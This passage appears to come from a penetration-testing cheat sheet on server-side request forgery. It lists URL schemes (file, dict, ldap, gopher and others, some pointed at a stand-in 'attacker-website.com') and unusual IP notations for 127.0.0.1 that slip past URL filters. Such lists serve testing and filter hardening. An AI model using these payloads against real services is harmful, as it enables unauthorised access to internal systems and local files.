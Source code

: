 You can try using different URL schemes to bypass the filter:
```http
file://path/to/file
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
dict://127.0.0.1:1337/stats
ftp://127.0.0.1/
sftp://attacker-website.com:1337/
tftp://attacker-website.com:1337/TESTUDPPACKET
ldap://127.0.0.1:389/%0astats%0aquit
ldaps://127.0.0.1:389/%0astats%0aquit
ldapi://127.0.0.1:389/%0astats%0aquit
gopher://attacker-website.com/_SSRF%0ATest!
```

## IP address formats

You can try using a different IP address format to bypass the filter.

### Rare IP address

Rare IP address formats, defined in [RFC 3986](https://tools.ietf.org/html/rfc3986#section-7.4):
- Dotted hexadecimal IP: `0x7f.0x0.0x0.0x1`
- Dotless hexadecimal IP: `0x7f001`
- Dotless hexadecimal IP with padding: `0x0a0b0c0d7f000001` (padding is `0a0b0c0d`)
- Dotless decimal IP: `2130706433`
- Dotted decimal IP with overflow (256): `383.256.256.257`
- Dotted octal IP: `0177.0.0.01`
- Dotless octal IP: `017700000001`
- Dotted octal IP with padding: `00177.000.0000.000001`
- Combined:

    ```http
    0x7f.0.1
    0x7f.1
    00177.1
    00177.0x0.1
    ```

You can short-hand IP addresses by dropping the zeros:

```http
1 part  (ping A)       : 0.0.0.A
2 parts (ping A.B)     : A.0.0.B
3 parts (ping A.B.C)   : A.B.0.C
4 parts (ping A.B.C.D) : A.B.C.D

0       => 0.0.0.0
127.1   => 127.0.0.1
127.0.1 => 127.0.0.1
```

### IPv6 address
